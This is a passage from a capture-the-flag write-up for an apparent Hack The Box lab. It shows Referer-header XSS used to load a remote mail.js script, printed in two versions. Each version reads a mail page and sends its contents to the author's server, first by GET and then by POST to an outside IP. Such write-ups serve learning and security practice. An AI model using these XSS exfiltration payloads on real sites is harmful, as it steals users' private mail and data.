 Injecting xss in referer header to fetch **mail.js** which will be executed

![Screenshot from 2022-03-22 12-53-48](https://user-images.githubusercontent.com/79413473/159428698-88f12b6d-fdd2-43f2-b652-cccad6a431b3.png)

mail.js hosted on my server, it will make a GET request to read mail then save the response and send back to me using another GET request to my server.
```
let xhr= new XMLHttpRequest();
xhr.open('GET','http://mail.stacked.htb/read-mail.php?id=1', false);  //Making a synchronous request to read email
xhr.onload = function() {
   var responseb = xhr.response;   //saving response in a varible
   
    let yhr = new XMLHttpRequest();
    url='http://MY-IP:8088/?c='+responseb
    yhr.open('GET',url, true)   // Sending response back to my server.
    yhr.send()
}


xhr.send();
```
but using GET request has a drawback it has a limit on how much data we can send in a paramter.

![Screenshot from 2022-03-22 12-57-07](https://user-images.githubusercontent.com/79413473/159429207-93ba8a59-5b1c-41ca-a36e-637e3c9952ad.png)

```
<!DOCTYPE html><html lang="en"><head>  <meta charset="utf-8">  <meta name="viewport" content="width=device-width, initial-scale=1">  <title>AdminLTE 3 | Read Mail</title>  <!-- Google Font: Source Sans Pro -->  <link rel="stylesheet" href="https://fonts.googleapis.com/css?family=Source Sans Pro:300,400,400i,700&display=fallback">  <!-- Font Awesome -->  <link rel="stylesheet" href="plugins/fontawesome-free/css/all.min.css">  <!-- Theme style -->  <link rel="stylesheet" href="dist/css/adminlte.min.css"></head><body class="hold-transition sidebar-mini"><div class="wrapper">  <!-- Navbar -->  <nav class="main-header navbar navbar-expand navbar-white navbar-light">    <!-- Left navbar links -->    <ul class="navbar-nav">      <li class="nav-item">        <a class="nav-link" data-widget="pushmenu" href="
```
 this is clearly not complete response that's why we have to switch to POST request.
 
 New mail.js 
 
 ```
 let xhr= new XMLHttpRequest();
xhr.open('GET','http://mail.stacked.htb/read-mail.php?id=1', false);  //Making a request to read email
xhr.onload = function() {
   var responseb = xhr.response;   //saving response in a varible
   
    let yhr = new XMLHttpRequest();
    url='http://10.10.16.13:8088'
    yhr.open('POST',url, true)   
    yhr.send(responseb);    // sending data in body
}


xhr.send();
```
